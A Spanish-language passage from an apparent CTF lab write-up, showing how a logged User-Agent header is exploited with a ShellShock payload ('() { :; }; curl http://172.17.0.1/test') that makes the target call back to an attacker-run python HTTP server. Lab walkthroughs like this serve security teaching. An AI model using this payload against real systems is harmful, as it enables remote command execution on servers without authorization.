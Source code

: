 Podemos ver que nos reporta un mensaje que dice: `User-Agent almacenado en el log`, lo que nos puede ayudar en nuestra explotación al ser una posible pista


## ShellShock Attack

Este es un ataque que se lleva a cabo a través de la cabecera `User-Agent` , un bug de `bash` que permite la ejecución remota de comandos, una detección para esta máquina sería la siguiente

- Habilitaremos un servidor HTTP con `python` a modo de recibir solicitudes

~~~ bash
python3 -m http.server 80                                                      
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~

Ejecutamos esta solicitud `http` para la URL `http://bruteshock.local/pruebasUltraSecretas`

~~~ bash
curl -IX GET http://bruteshock.dl/pruebasUltraSecretas/ -A "() { :; }; curl http://172.17.0.1/test" 

HTTP/1.1 200 OK
Date: Fri, 28 Mar 2025 18:18:50 GMT
Server: Apache/2.4.62 (Debian)
Vary: Accept-Encoding
Content-Length: 1873
Content-Type: text/html; charset=UTF-8
~~~

![image-center](/assets/images/posts/bruteshock-shellshock.png){: .align-center}

Aprovecha el bug Willy!. En el ejemplo anterior estaríamos intentando enviarnos una solicitud HTTP a nuestro servidor `python3`. Es cuando el payload se ejecuta correctamente y envía una solicitud a nuestro servidor solicitando un archivo `test`
